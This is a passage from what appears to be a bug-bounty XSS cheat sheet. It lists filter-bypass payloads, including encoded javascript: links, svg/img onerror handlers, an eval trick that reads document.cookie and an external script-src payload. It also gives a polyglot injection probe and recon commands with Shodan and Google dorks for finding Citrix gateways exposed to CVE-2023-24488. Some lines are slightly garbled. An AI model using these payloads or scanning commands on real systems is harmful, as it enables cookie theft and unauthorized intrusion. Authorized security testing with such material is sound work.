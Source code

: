 5. Injecting anchor tag without whitespaces:

```
<a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">
```

6. Try to bypass whitespaces using a bullet:

```
<svg•onload=alert(1)>
```

7. Try to change request method (POST instead of GET):

GET /?q=xss POST /q=xss

8. Try capatalizing alert function:

```
</textarea><img src=x onerror=”var pop=’ALERT(document.cookie);’; eval(pop.toLowerCase());”
```

#### Short XSS Payload:

```
<script/src=//Ǌ.₨></script>
```

#### Hex XSS Payloads:

```
</title><scRipt>alert(0x00C57D)</scRipt>
<iMg src%3dN onerror%3dalert(0x0036A9)>
<iMg src%3dN onerror%3dalert(0x000D98)>
```

### Throw this into EVERY parameter you see

```
'"`><img src=x>${{7*7}}
```

```
'"` =====> SQLi testing
'"` ======> JS inject
'"`> ======> html tag attribute inject
<img src=x> =====> html inject
${{7*7}} ======> CSTI
```

by @theXSSrat

#### Nuclei CVE-2023-24488 Citrix XSS - Easy Bug Bounty

**Command**:\
subfinder -d [target.com](http://target.com/) -silent | nuclei -t http/cves/2023/CVE-2023-24488.yaml\
\
assetfinder [target.com](http://target.com/) | nuclei -t http/cves/2023/CVE-2023-24488.yaml\
\
**Template**: [xss-nuclei-template-cve-2023-24488.yaml.md](xss-nuclei-template-cve-2023-24488.yaml.md "mention")\
\
**Shodan Dork**:\
ssl:[target.com](http://target.com/) title:"Citrix gateway"\
\
**Dork**:\
intitle:"Citrix Gateway" -site:[citrix.com](http://citrix.com/)
